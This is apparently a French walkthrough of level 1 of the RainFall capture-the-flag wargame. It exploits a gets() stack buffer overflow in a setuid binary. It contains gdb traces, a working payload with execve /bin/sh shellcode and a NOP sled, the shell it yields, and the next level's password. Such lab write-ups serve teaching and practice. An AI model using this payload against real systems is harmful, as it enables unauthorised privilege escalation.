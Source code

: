 # Level 1

<!-- ```
level0@RainFall:~$ su level1
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
``` -->

![connexion level2](./1.png)

La connexion au level 2 nous informe que l'executable dans le repertoire permets l'execution de programmes sur la pile et que les adresses d'alocations de mémoires seront constante entre les essais.


```
level1@RainFall:~$ ls -la level1
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

Les fonctions executées dans le programme le seront avec les droits du level2 (s).

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

Le programme demande une entrée utilisateur avec gets.
Ligne 6, une allocation de 80 octets (0x50) est demandée.

Comme la fonction gets ne fait aucunes vérifications de tailles de chaines de caracteres, nous concluons qu'une faille par buffer overflow est possible.

La technique utilisée est d'inclure dans le buffer un shellcode qui ouvre un shell, et comme le programme execute avec les droits du level2, nous seront dans un shell avec l'id de celui-ci.

### Fonctionnement de la faille

  Avant l'appel d'une fonction, le pointeur de fonction mere est sauvegardé afin de retourner a celle-ci a la fin de la fonction fille. Ce pointeur est sauvegardé au dessus de la pile.
  Le but de l'exploit est d'écrire plus que le buffer alloué, afin d'écraser la valeur du pointeur de la fonction mère, et ici pointer vers le buffer, dans le but d'executer notre shellcode.

### Les étapes :
- Trouver l'adresse du buffer.
- tester des longueurs de buffer dans gdb pour vérifier l'écrasement du pointeur de retour.
- Executer le binaire en redirigeant stdin pour pas que le programme termine.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb) b *0x08048490
Breakpoint 1 at 0x8048490
(gdb) b *0x08048495
Breakpoint 2 at 0x8048495
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) x/xw $esp
0xbffff6e0:	0xbffff6f0
(gdb) x/20xw $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x080484a0	0x0804978c	0x00000001	0x08048321
0xbffff700:	0xb7fd13e4	0x00080000	0x0804978c	0x080484c1
0xbffff710:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff720:	0xb7fed280	0x00000000	0x080484a9	0xb7fd0ff4
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048495 in main ()
(gdb) x/20xw $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff710:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff720:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Le buffer commence a 0xbffff6f0 (0x41414141 = "AAAA").

Nous allons utiliser ce shellcode :
```
"\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf4\xf6\xff\xbf"
```
"\x90"*30  : NOP sled, instructions qui ne fait rien et passe a l'instruction suivante. cela permet de faire une sorte de rampe glissante vers le shellcode important, et d'augmenter la tolérence a l'emplacement de l'adresse de retour.

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" : shellcode responsable de l'appel a /bin/sh

"A"*(75-30-23) : remplissage pour atteindre l'emplacement de l'adresse de retour de la fonction

"\xf0\xf6\xff\xbf" : adresse qui pointe vers le debut du buffer où les nop sled sont.


75 est déterminé par les essais d'alignements de l'adresse de retour.
30 est la taille des nop sled
23 est la taille du shellcode dash


```
(gdb) run <<< $(python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level1/level1 <<< $(python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"')

Breakpoint 1, 0x08048490 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0x08048495 in main ()
(gdb) c
Continuing.
process 5290 is executing new program: /bin/dash
[Inferior 1 (process 5290) exited normally]
```

Il suffit désormais d'executer hors gdb et dans une commande qui laisse ouvert l'entrée standart pour pas que le programme termine.

```
level1@RainFall:~$ python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"' > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | /home/user/level1/level1
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
